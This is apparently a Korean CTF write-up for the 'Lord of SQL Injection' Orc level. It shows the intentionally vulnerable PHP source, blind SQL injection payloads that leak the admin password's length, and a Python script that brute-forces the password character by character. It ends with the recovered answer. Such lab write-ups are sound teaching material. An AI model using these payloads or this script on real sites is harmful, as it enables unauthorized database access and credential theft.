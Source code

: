 # Lord of SQL Injection No.4 - Orc
## 문제 출제 의도
1. Blind SQL Injection의 이해 여부 확인.
2. Blind SQL Injection을 풀기 위해 코드 작성 능력 확인.
## 소스 코드  
~~~
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello admin</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
    highlight_file(__FILE__); 
?>
~~~
##소스코드 분석
+ addslashes 함수
    - addslashes함수는 다음과 같은 형식을 취한다.
    ~~~
    string addslashes ( string $str )
    ~~~
    - 특수문자로 부터 발생될 수 있는 에러를 피하기위해 특수문자 앞에 역슬래쉬를 붙여주는 역활을하는 함수.
    - 원래대로 돌려줄때는 백슬레쉬를 제거해주는 stripslashes() 함수를 쓴다.
    - addslashed함수에 대해 잘 모르겠다면 다음 사이트를 참고하자.  
    <a href="http://php.net/manual/kr/function.addslashes.php">PHP: addslashes - Manual</a>
##분석 결론
+ 금지 문자, 문자열
    - GET방식으로 입력받은 pw값에 prob _ . () 중 하나라도 있다면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
+ pw
    - pw에 특수문자를 입력해도 특수문자 처리가 되지 않는다.
## 문제 해결
1. Blind SQL Injection
    - pw길이
        * 직접 패스워드를 알아야 함으로 우선 비밀번호가 몇 글자인지 알아야 한다.
        * 따라서 URL 뒤에 다음과 같은 문자열을 추가 하여 확인 가능하다.
        ~~~
        ?pw=' or id='admin' and length(pw)=8-- -
        ~~~
        * 이는 Hello admin을 출력하게 만들기 때문에 우리는 pw가 8자리인 것을 알 수 있다.
    - pw값
        * substr함수
            1. substr은 다음과 같은 형식을 취한다.
            ~~~
            substr(대상문자열,시작index,길이)
            ~~~
            2. substr은 문자열을 자르는 함수이다. 시작 인덱스에서 길이만큼 문자열을 자른다.
            3. 이를 통해 문자열을 잘라 문자를 하나씩 알아낸다.

        * 위 방법과 유사하게 한글자씩 알아내는 것은 코드를 이용하여 풀면 편하다.  
        * 다음과 같은 파이썬 코드를 이용하면 pw값을 쉽게 알 수 있다.
        ~~~
        import urllib.request
        from urllib.parse import quote
        key = ""
        for i in range(1, 9):
            for j in range(48, 127):
                url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw="
                data="' or id='admin' and substr(pw,1,{})='{}'#".format(str(i), key + chr(j))
                print(data)

                data = quote(data)
                re = urllib.request.Request(url + data)
                re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
                re.add_header("Cookie", "PHPSESSID=4p56htpvcookallo00ondblnf6")

                res = urllib.request.urlopen(re)

                if str(res.read()).find("Hello admin") != -1:
                    key += chr(j).lower()
                    print(key)
                    break
        print(key)
        ~~~
        * 위 코드를 실행하면 295d5844가 출력된다. 이를 pw값에 GET 방식으로 입력하면 해결된다.